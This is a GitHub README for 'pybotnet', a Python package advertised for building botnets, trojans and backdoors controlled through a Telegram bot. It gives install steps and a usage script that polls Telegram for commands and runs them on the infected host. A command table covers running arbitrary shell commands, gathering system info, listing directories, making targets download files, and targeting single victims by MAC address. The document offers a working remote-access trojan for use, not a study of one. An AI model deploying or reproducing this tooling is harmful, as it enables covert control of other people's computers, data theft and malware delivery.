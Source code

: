  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://i.postimg.cc/WFSTSLnW/trojan.png' border='0' alt='pybotnet icon'/></a>  <h1    align="center">pybotnet</h1>
  <p align="center"> A Python module for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 



### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* for more see commands table end of this page 

See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3


#### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# Edit this section and enter your information:
TELEGRAM_TOKEN = '1468299547:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

* Send this COMMANDs to your api bot in telegram, using the admin account.



COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows |

* run command only on one system, write the MAC address of that system first: \
\
`<Target_MAC_Address> <command>`\
`66619484755211 get_info` \
`66619484755211 cmd mkdir new_folder` 
